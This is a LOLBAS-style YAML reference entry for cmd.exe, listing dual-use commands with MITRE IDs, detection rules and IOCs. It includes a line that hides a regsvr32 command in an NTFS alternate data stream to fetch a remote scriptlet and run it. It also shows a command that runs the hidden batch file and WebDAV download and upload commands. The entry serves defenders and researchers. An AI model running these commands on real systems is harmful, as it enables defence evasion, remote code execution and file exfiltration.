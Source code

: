 ```yaml
---
Name: Cmd.exe
Description: The command-line interpreter in Windows
Author: Ye Yint Min Thu Htut
Created: 2019-06-26
Commands:
  - Command: cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct ^scrobj.dll > fakefile.doc:payload.bat
    Description: Add content to an Alternate Data Stream (ADS).
    Usecase: Can be used to evade defensive countermeasures or to hide as a persistence mechanism
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: cmd.exe - < fakefile.doc:payload.bat
    Description: Execute payload.bat stored in an Alternate Data Stream (ADS).
    Usecase: Can be used to evade defensive countermeasures or to hide as a persistence mechanism
    Category: ADS
    Privileges: User
    MitreID: T1059.003
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: type \\webdav-server\folder\file.ext > C:\Path\file.ext
    Description: Downloads a specified file from a WebDAV server to the target file.
    Usecase: Download/copy a file from a WebDAV server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: type C:\Path\file.ext > \\webdav-server\folder\file.ext
    Description: Uploads a specified file to a WebDAV server.
    Usecase: Upload a file to a WebDAV server
    Category: Upload
    Privileges: User
    MitreID: T1048.003
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\cmd.exe
  - Path: C:\Windows\SysWOW64\cmd.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/688df3405afd778d63a2ea36a084344a2052848c/rules/windows/process_creation/process_creation_alternate_data_streams.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_ads_file_creation.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/61afb1c1c0c3f50637b1bb194f3e6fb09f476e50/rules/windows/defense_evasion_unusual_dir_ads.toml
  - IOC: cmd.exe executing files from alternate data streams.
  - IOC: cmd.exe creating/modifying file contents in an alternate data stream.
Resources:
  - Link: https://twitter.com/yeyint_mth/status/1143824979139579904
  - Link: https://twitter.com/Mr_0rng/status/1601408154780446721
  - Link: https://medium.com/@mr-0range/a-new-lolbin-using-the-windows-type-command-to-upload-download-files-81d7b6179e22
  - Link: https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/type
Acknowledgement:
  - Person: r0lan
    Handle: '@yeyint_mth'
  - Person: Mr.0range
    Handle: '@mr_0rng'
---
```

